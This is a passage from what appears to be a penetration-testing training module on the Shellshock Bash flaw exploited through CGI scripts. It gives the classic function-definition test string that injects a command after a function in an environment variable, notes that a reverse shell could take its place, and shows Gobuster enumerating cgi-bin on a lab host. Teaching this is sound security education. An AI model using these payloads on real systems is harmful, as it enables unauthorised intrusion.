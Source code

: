 ***

## Shellshock via CGI

The Shellshock vulnerability allows an attacker to exploit old versions of Bash that save environment variables incorrectly. Typically when saving a function as a variable, the shell function will stop where it is defined to end by the creator. Vulnerable versions of Bash will allow an attacker to execute operating system commands that are included after a function stored inside an environment variable. Let's look at a simple example where we define an environment variable and include a malicious command afterward.

```shell-session
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

When the above variable is assigned, Bash will interpret the `y='() { :;};'` portion as a function definition for a variable `y`. The function does nothing but returns an exit code `0`, but when it is imported, it will execute the command `echo vulnerable-shellshock` if the version of Bash is vulnerable. This (or any other command, such as a reverse shell one-liner) will be run in the context of the web server user. Most of the time, this will be a user such as `www-data`, and we will have access to the system but still need to escalate privileges. Occasionally we will get really lucky and gain access as the `root` user if the web server is running in an elevated context.

If the system is not vulnerable, only `"not vulnerable"` will be printed.

```shell-session
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"

not vulnerable
```

This behavior no longer occurs on a patched system, as Bash will not execute code after a function definition is imported. Furthermore, Bash will no longer interpret `y=() {...}` as a function definition. But rather, function definitions within environment variables must now be prefixed with `BASH_FUNC_`.

***

## Hands-on Example

Let's look at a hands-on example to see how we, as pentesters, can find and exploit this flaw.

### **Enumeration - Gobuster**

We can hunt for CGI scripts using a tool such as `Gobuster`. Here we find one, `access.cgi`.

```shell-session
$ gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.204.231/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
2023/03/23 09:26:04 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
                                             
===============================================================
```